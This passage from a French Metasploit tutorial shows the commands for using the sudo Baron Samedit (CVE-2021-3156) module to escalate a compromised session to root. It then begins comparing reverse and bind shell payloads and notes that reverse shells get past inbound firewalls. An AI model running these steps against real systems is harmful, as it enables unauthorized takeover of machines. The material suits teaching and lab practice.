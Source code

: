 ```bash
msfconsole
```

Chercher le module :

```bash
search sudo cve-2021-3156
```

Résultat attendu :

```
exploit/linux/local/sudo_baron_samedit
```

### 2️⃣ Utiliser le module

```bash
use exploit/linux/local/sudo_baron_samedit
```

### 3️⃣ Configurer les options

```bash
set SESSION 1         # Une session utilisateur déjà compromise doit être active
set LPORT 4444        # Port d’écoute si payload reverse
set TARGET 0          # Choix automatique du système
```

💡 Le module requiert une session active (généralement via un premier exploit ou accès SSH limité).

### 4️⃣ Lancer l’exploitation

```bash
run
```

### ✅ Résultat : élévation de privilèges à `root`.

> Ce module illustre comment **enchaîner plusieurs étapes** : accès initial ➝ élévation ➝ post-exploitation.

---

## 2. Payloads : reverse shell vs bind shell

### 🔁 Qu’est-ce qu’un payload ?

C’est le code qui s’exécutera **après l’exploitation** pour établir une communication avec l’attaquant.

### ⚖️ Comparatif

| Type          | Fonctionnement                                 | Avantage                | Inconvénient                 |
| ------------- | ---------------------------------------------- | ----------------------- | ---------------------------- |
| Reverse shell | La cible initie une connexion vers l'attaquant | Bypass firewall entrant | Besoin d'un listener actif   |
| Bind shell    | La cible ouvre un port et écoute               | Facile à implémenter    | Bloqué si firewall en entrée |

